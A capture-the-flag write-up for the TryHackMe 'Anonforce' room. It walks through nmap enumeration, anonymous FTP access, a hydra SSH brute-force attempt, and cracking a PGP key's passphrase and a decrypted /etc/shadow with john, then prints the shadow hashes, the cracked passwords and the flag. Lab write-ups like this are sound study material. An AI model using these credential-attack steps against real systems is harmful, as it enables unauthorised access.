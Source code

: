 # [Challenge](https://tryhackme.com/room/bsidesgtanonforce)

- # ENUM
	- ### nmap (`nmap -A -p- -T4 --min-rate 5000 anonforce`)
		- 21 -> ftp (anonymous allowed) (vsftpd 3.0.3)
		- 22 -> ssh

- # EXPLOITATION & PRIV. ESC.
Let's get into anonymous FTP: we can see that there's the entire file system on it. Let's grab the user flag (`melodias`).
Let's also bruteforce with `hydra` for melodias' password: `hydra -l melodias -P /usr/share/wordlists/rockyou.txt ssh://anonforce -t 64 -I -V`: it didn't work :\ 
I also searched for a `vsftpd 3.0.3` exploit, but nothing... Let's analyze better our ftp server: there's a strange directory: `notread` , containing a PGP (Pretty Good Privacy) key and a key (`private.asc`). Let's use `john`:  `gpg2john private.asc > hash` -> `john hash`
Password: `xbox360`
Let's import the key: `gpg --import private.asc` -> `gpg --decrypt backup.pgp`:
```
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18120:0:99999:7:::
uuidd:*:18120:0:99999:7:::
melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
sshd:*:18120:0:99999:7:::
ftp:*:18120:0:99999:7:::% 
```
Very good! Let's use `john` again (SHA256): `john hash`
Password (root): `hikari`
Perfect! Let's log into ssh as root and let's grab the flag!
`f706456440c7af4187810c31c6cebdce`

